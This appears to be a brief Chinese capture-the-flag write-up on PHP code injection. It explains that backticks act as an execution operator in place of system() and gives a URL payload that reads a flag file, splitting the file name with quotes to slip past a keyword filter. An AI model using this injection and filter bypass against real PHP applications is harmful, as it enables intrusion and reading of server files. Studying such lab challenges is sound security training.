

# 知识点
``代替system()
### php中反引号充当执行运算符
[https://www.php.net/manual/zh/language.operators.execution.php](https://www.php.net/manual/zh/language.operators.execution.php)
# 思路
```git
?c=echo%20`cat%20fl%27%27ag.ph%27%27p`;
```


